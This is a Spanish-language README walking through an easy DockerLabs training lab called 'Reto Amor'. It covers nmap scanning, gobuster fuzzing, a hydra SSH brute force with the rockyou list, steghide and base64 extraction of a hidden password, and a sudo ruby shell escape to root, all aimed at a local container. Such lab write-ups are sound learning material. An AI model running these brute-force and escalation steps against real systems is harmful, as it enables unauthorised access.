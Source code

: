 **Mayor DIEGO A. ESMERAL M.**

![Diagrama de Flujo](AMOR.png)

# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.



---

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

---

## 🔧 Herramientas Empleadas

| Herramienta | Definición | Funcionalidad | Casos de uso |
|------------|------------|---------------|--------------|
| **Docker** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **scp** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **netdiscover** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **nmap** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **gobuster** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **hydra** | Ataques de fuerza bruta contra servicios. | Prueba múltiples contraseñas/usuarios. | Auditoría de credenciales débiles. |
| **steghide** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **base64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

---

## 🛠️ Desglose de Comandos Utilizados

```bash
# 1. Transferir carpeta
scp -r amor kali@192.168.1.12:/home/kali/Documents/

# 2. Instalar Docker (si aplica)
sudo apt install docker.io

# 3. Desplegar máquina
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar

# 4. Obtener interfaz de red
ip add

# 5. Escaneo de red en docker0
sudo netdiscover -i docker0 -r 172.17.0.0/24

# 6. Escanear puertos abiertos
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2

# 7. Fuzzing web
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 8. Fuerza bruta SSH
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10

# 9. Acceso por SSH
ssh carlota@172.17.0.2

# 10. Buscar imagen
cd /carlota/Desktop/fotos/vacaciones

# 11. Descargar imagen a Kali
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor



# 12. Extraer contenido oculto
steghide extract -sf imagen.jpg

# 13. Decodificar mensaje oculto
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

# 14. Escalada de privilegios
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'

✅ Resultado Final
Al finalizar el laboratorio se logra:

Identificar servicios expuestos (22, 80).

Obtener acceso SSH por fuerza bruta.

Detectar archivo con datos esteganográficos.

Decodificar contraseña y escalar privilegios a root.

DIAGRAMA DE FLUJO



![FOTO](https://github.com/jaiderospina/ELECTIVA_HABILIDADES_PRAC_2025/blob/main/DOCKERLABS/images/foto.jpg?raw=true)






